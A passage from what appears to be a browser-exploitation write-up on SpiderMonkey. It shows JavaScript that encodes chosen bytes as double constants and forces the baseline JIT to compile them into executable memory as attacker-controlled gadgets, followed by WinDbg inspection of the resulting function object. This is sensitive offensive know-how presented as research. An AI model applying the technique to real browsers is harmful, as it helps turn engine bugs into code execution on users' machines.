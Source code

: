 The largest type of constants I could find are doubles and that is what I focused on ultimately (even though I tried a bunch of other things). To generate doubles that have the same representation than an arbitrary (as described above, we actually cannot represent  **every** 8 bytes values) quad-word (8 bytes) we leverage two TypedArrays to view the same data in two different representations:

```JavaScript
function b2f(A) {
    if(A.length != 8) {
        throw 'Needs to be an 8 bytes long array';
    }

    const Bytes = new Uint8Array(A);
    const Doubles = new Float64Array(Bytes.buffer);
    return Doubles[0];
}
```

For example, we start-off by generating a double representing `0xdeadbeefbaadc0de` by invoking `b2f` (bytes to float):

```text
js> b2f([0xde, 0xc0, 0xad, 0xba, 0xef, 0xbe, 0xad, 0xde])
-1.1885958399657559e+148
```

Let's start simple and create a basic JavaScript function that assigns this constant to a bunch of different variables:

```JavaScript
const BringYourOwnGadgets = function () {
    const D = -1.1885958399657559e+148;
    const O = -1.1885958399657559e+148;
    const A = -1.1885958399657559e+148;
    const R = -1.1885958399657559e+148;
    const E = -1.1885958399657559e+148;
};
```

To hint the engine that this function is hot-code and as a result that it should get JITed to machine code, we invoke it a bunch of times. Everytime you call a function, the engine has profiling-type hooks that are invoked to keep track of hot / cold code (among other things). Anyway, according to my testing, invoking the function twelve times triggers the baseline JIT (you should also know about the magic functions `inIon` and `inJit` that are documented [here](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey/Shell_global_objects)) :

```JavaScript
for(let Idx = 0; Idx < 12; Idx++) {
    BringYourOwnGadgets();
}
```

The C++ object backing a JavaScript function is a `JSFunction`. Here is what it looks like in the debugger:

```text
0:005> g
Breakpoint 0 hit
js!js::math_atan2:
00007ff7`65362ac0 4056            push    rsi

0:000> ?? vp[2]
union JS::Value
   +0x000 asBits_          : 0xfffe01b8`2ffb0c00
   +0x000 asDouble_        : -1.#QNAN 
   +0x000 s_               : JS::Value::<unnamed-type-s_>

0:000> dt JSFunction 01b82ffb0c00
   +0x000 group_           : js::GCPtr<js::ObjectGroup *>
   +0x008 shapeOrExpando_  : 0x000001b8`2ff8c240 Void
```